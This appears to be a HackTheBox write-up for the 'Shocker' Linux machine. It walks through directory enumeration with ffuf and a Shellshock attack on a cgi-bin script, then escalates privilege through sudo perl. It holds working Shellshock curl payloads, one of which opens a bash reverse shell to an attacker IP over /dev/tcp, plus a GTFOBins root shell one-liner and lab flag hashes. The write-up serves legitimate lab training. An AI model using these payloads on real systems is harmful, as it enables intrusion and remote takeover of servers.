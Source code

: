 ```yaml
---
title: HackTheBox - Shocker
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-20
tags: [exploit/shell-shock, linux-priv-esc/sudo/gtfo-bin ]
img_path: /Writeups/HackTheBox/Linux/Shocker/images/
image:
  src: Pasted%20image%2020220820044938.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```




# Overview 
This machine begins w/ a web directory enumeration, finding a `cgi-bin/` directory, and by further enumerating the found directory (`cgi-bin/`), a bash script is found, allowing us to use an exploit called shellshock to execute commands, obtaining a low-privilege shell/`shelly `shell.

On the system, the `shelly` has a sudoers entry that allows `shelly` to execute `perl` as `root`, which is exploitable allowing us to spawn a `root` shell.

---

| Column       | Details     |
| ------------ | ----------- |
| Box Name     | Shocker     |
| IP           | 10.10.10.56 |
| Points       | -           |
| Difficulty   | Easy        |
| Creator      | [mrb3n](https://www.hackthebox.com/home/users/profile/2984)            |
| Release Date |   30-Sep-2017          |


# Recon


## TCP/80 (HTTP)
### FFUF
```
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```
- `cgi-bin` directory is found

# Initial Foothold

## TCP/80 (HTTP) - Shell Shock
1. Since the machine is called `Shocker` and we find a `cgi-bin` directory, it is very likely our initial foothold is obtained via [shellshock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/)
2. Enumerate `cgi-bin` directory, [specifying scripting language extensions](https://en.wikipedia.org/wiki/Scripting_language)
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# ffuf -u http://shocker.htb/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php'
	
	user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
	```
	- `user.sh`
3. Attempt shellshock on `/cgi-bin/user.sh`
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://shocker.htb/cgi-bin/user.sh
	shelly
	
	```
4. Obtain a shell
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' http://shocker.htb/cgi-bin/user.sh
	```
	![](Pasted%20image%2020220820043637.png)
5. User Flag
	![](Pasted%20image%2020220820043857.png)
	- `2ec24e11320026d1e70ff3e16695b233`

# Privilege Escalation

## Root - Via SUDO GTFOBins 
1. Check `shelly` sudo access
	- `/usr/bin/perl`
		- Perl has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#sudo)
2. Exploit and Obtain Root Flag
	```
	sudo perl -e 'exec "/bin/sh";'
	```
	![](Pasted%20image%2020220820044027.png)
	- `52c2715605d70c7619030560dc1ca467`
3. Change password of `root` & SSH to obtain `root` user
	```
	# passwd  
	Enter new UNIX password: 
	Retype new UNIX password: 
	```
	![](Pasted%20image%2020220820044452.png)
